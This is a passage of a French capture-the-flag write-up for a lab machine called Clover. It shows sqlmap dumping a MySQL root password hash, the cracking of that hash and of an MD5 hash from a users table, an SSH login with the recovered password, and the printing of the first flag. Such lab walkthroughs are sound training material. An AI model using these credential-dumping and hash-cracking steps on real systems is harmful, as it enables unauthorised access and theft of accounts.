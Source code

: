 Je peux utiliser l'option `--passwords` de `sqlmap` qui me retourne le hash de l'utilisateur root :

```
[*] root [1]:
    password hash: *EE2227E76B10DEA20C821828D6885879FF245EF6
```

Le mot de passe (`astaasta`) est facilement cassé avec https://crackstation.net/

On découvre aussi une base de données nommée `clover` qui a la table `users` suivante :

```
Database: clover
Table: users
[3 entries]
+----+-----------+----------------------------------+
| id | username  | password                         |
+----+-----------+----------------------------------+
| 1  | 0xBush1do | 33a41c7507cy5031d9tref6fdb31880c |
| 2  | asta      | 69a41c7507ad7031d9decf6fdb31810c |
| 3  | 0xJin     | 92ift37507ad7031d9decf98setf4w0c |
+----+-----------+----------------------------------+
```

Seul `asta` dispose d'un hash MD5 valide, les autres contiennent des caractères `y` et `t`.

Il y a peu de sites de reverse MD5 qui ont le hash dans leur base mais je finis par en trouver un qui l'a. Le mot de passe en clair est `asta$$123`.

On peut se connecter en SSH et accéder au premier flag :

```shellsession
asta@Clover:~$ cat local.txt 



                                |     |
                                \\_V_//
                                \/=|=\/
       Asta PWN!                 [=v=]
                               __\___/_____
                              /..[  _____  ]
                             /_  [ [  M /] ]
                            /../.[ [ M /@] ]
                           <-->[_[ [M /@/] ]
                          /../ [.[ [ /@/ ] ]
     _________________]\ /__/  [_[ [/@/ C] ]
    <_________________>>0---]  [=\ \@/ C / /
       ___      ___   ]/000o   /__\ \ C / /
          \    /              /....\ \_/ /
       ....\||/....           [___/=\___/
      .    .  .    .          [...] [...]
     .      ..      .         [___/ \___]
     .    0 .. 0    .         <---> <--->
  /\/\.    .  .    ./\/\      [..]   [..]
 / / / .../|  |\... \ \ \    _[__]   [__]_
/ / /       \/       \ \ \  [____>   <____]



34f35ca9ea7febe859be7715b707d684
```
